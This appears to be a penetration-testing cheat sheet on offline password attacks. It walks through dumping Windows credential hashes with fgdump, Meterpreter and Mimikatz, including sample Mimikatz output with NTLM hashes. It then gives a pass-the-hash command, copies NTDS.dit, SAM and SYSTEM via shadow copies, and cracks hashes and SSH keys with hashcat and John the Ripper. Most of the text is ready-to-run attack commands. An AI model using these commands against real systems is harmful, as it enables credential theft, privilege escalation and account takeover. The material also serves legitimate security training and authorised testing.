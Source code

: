 # Offline Attack

## Extracting Password Hashes from Windows

### fgdump

Run fgdump to dump local hash

```text
 fgdump.exe
```

### Meterpreter's Hashdump

```text
meterpreter > hashdump
```

### Mimikatz

```text
PS C:\temp\mimikatz> .\mimikatz
```

* get debug rights \(this or Local System rights is required for many Mimikatz commands\).
* by default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”.

```text
mimikatz # privilege::debug
```

* lists all available provider credentials. This usually shows recently logged on user and computer credentials.
* Services running with account credentials are also dumped using this command.
* Note that only services that are running \(credentials in memory\) can be dumped in this manner.

```text
mimikatz # sekurlsa::logonpasswords
```

```text
Authentication Id : 0 ; 646260 (00000000:0009dc74)
 Session           : RemoteInteractive from 2
 User Name         : adsadministrator
 Domain            : ADSECLAB
 Logon Server      : ADSDC03
 Logon Time        : 11/27/2015 11:41:27 AM
 SID               : S-1-5-21-1581655573-3923512380-696647894-500
 msv :
 [00000003] Primary
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 [00010000] CredentialKeys
 * NTLM     : 5164b7a0fda365d56739954bbbc23835
 * SHA1     : f8db297cb2ae403f8915675cebe79643d0d3b09f
 tspkg :
 wdigest :
 * Username : ADSAdministrator
 * Domain   : ADSECLAB
 * Password : (null)
 kerberos :
 * Username : adsadministrator
 * Domain   : LAB.ADSECURITY.ORG
 * Password : (null)
 ssp :   KO
 credman :
```

#### Pass the Hash with Mimikatz

If you can’t crack the hash of a local administrator account you can instead just inject the hash into memory to gain the privileges:

```text
sekurlsa::pth /user:Administrator /domain:{domain name} /ntlm:{ntlm hash here} /run:cmd
```

### Volume Shadow Copy Services to copy ntds.dit

```text
cscript vssown.vbs /start
cscript vssown.vbs /create
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\
```

## Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

## Cracking the Password

### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

```text
unshadow /etc/passwd /etc/shadow >> crackme.txt
```

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

```text
john crackme.txt --wordlist=rockyou.txt
```

Convert an encrypted SSH key to a format readable by John

```text
ssh2john encrypted-key >> crackme-ssh
```

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

```text
john crackme-ssh --wordlist=rockyou.txt
```

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

```text
john--format=md5 hashes --wordlist=rockyou.txt
```

John configuration file

* Linux

  ```text
  john.conf
  ```

* Windows

  ```text
  john.ini
  ```

`john.pot` file is where the cracking results stored.

```text
john --show [password_file]
```

john.rec is the recovery file in the event of a crash. To restore cracking

```text
john --restore
```

